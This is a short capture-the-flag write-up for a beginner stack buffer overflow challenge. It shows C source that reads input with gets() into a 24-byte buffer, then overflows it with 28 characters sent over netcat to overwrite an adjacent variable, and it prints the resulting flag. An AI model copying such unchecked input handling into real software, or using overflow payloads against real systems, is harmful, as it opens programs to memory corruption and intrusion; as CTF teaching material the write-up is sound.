


What you need to solve :
- Basic knowledge of stack

---

So this challenge is very generous, we were given the full source code for this challenge!

```
int main(){
	char user[24];
	int pemanasan = 0x123;

	printf("kata kata untuk huang : ");
	gets(user);

	if(pemanasan != 0x123){
		win();
	} else {
		printf("lu keren amat bang, kata kata lu %s banget\n", user);
	}
	return 0;
}
```

Opening the file inside of our notepad, we can see that the only challenge is to change the value of `pemanasan`.

But how can we do that?
So theres something called a stack overwrite where we can change values in the stack!

If you dont know what a buffer overflow is you should watch this : https://www.youtube.com/watch?v=AD-iXWANggo

--- 

Solving the challenge is quite simple we only need to change the value of pemanasan, so we can just go over the `user` buffer.

```
❯ python2 -c "print 'a' *28"
aaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

```
❯ nc 46.202.163.245 23432
kata kata untuk huang : aaaaaaaaaaaaaaaaaaaaaaaaaaaa
CSC{g1l4_s0lv3_b1n3x_s1ap_m3nj4d1_n3xt_m1k1m1ku}%  
```

And just like that we have solved the challenge!



Flag : CSC{g1l4_s0lv3_b1n3x_s1ap_m3nj4d1_n3xt_m1k1m1ku}